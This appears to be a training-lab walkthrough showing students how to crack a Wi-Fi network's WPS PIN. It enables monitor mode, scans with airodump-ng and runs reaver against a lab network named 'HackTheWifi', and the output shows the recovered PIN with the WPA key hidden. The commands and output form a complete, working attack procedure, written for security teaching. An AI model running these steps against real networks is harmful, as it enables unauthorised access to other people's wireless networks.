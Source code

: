 Students will open a terminal and switch to the `root` user:

Code: shell

```shell
sudo -s
```

```
wifi@WiFiIntro:~$ sudo -s
```

Next, students will proceed to create a new interface named `mon0` and enable `Monitor` mode:

Code: shell

```shell
iw dev wlan0 interface add mon0 type monitor
ifconfig mon0 up
```

```
root@WiFiIntro:/home/wifi# iw dev wlan0 interface add mon0 type monitor
root@WiFiIntro:/home/wifi# ifconfig mon0 up
```

Subsequently, students will use `airodump-ng` to scan the available wireless networks in the environment using the `mon0` interface, specifically searching for enabled WPS networks to obtain the MAC address of the `HackTheWifi` network:

Code: shell

```shell
airodump-ng mon0 --wps
```

```
root@WiFiIntro:/home/wifi# airodump-ng mon0 --wps

CH 11 ][ Elapsed: 6 s ][ 2024-11-04 07:52 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID

 D8:D7:3D:EB:29:D5  -28       64        0    0   1   54   WPA2 CCMP   PSK  2.0    CyberNetSecure                                         
 22:FB:96:FA:D5:D6  -28       64        0    0   1   54   WPA2 CCMP   PSK  2.0    Corp-VPN                                               
 72:54:37:49:34:D3  -28       64        0    0   1   54   WPA2 CCMP   PSK  2.0    HackTheWifi  
```

Students will proceed with `reaver` to obtain the WPS pre-shared key targeting the `HackTheWifi` network with the `72:54:37:49:34:D3` MAC address on channel 1:

Code: shell

```shell
reaver -i mon0 -b 72:54:37:49:34:D3 -c 1
```

```
root@WiFiIntro:/home/wifi# reaver -i mon0 -b 72:54:37:49:34:D3 -c 1

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 72:54:37:49:34:D3
[+] Received beacon from 72:54:37:49:34:D3
[!] Found packet with bad FCS, skipping...
[+] Associated with 72:54:37:49:34:D3 (ESSID: HackTheWifi)
[+] Associated with 72:54:37:49:34:D3 (ESSID: HackTheWifi)
[+] Associated with 72:54:37:49:34:D3 (ESSID: HackTheWifi)
[+] WPS PIN: '01235678'
[+] WPA PSK: '{hidden}'
```